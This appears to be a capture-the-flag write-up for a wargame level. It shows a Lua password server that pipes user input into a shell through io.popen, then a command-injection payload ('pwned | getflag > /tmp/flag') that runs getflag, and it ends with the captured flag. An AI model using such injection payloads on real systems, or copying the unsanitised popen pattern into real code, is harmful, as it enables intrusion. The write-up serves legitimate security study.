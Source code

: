 # level11

`ls`
![[ls.png]]

`cat level11.lua`
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

![[Already In Use.png]]

`ps auxf` shows that the program is already launched by flag11

We can then try to connect with `nc`
![[nc test.png]]

We see in the script that the `popen` function will execute a command composed of `echo [the given password] | sha1sum` and then read from it to create the hashed version.

We can exploit that execution by giving `pwned | getflag > /tmp/flag` as the passord (It will execute `echo pwned | getflag > /tmp/flag | sha1sum`)
![[flag.png]]
### Flag = fa6v5ateaw21peobuub8ipe6s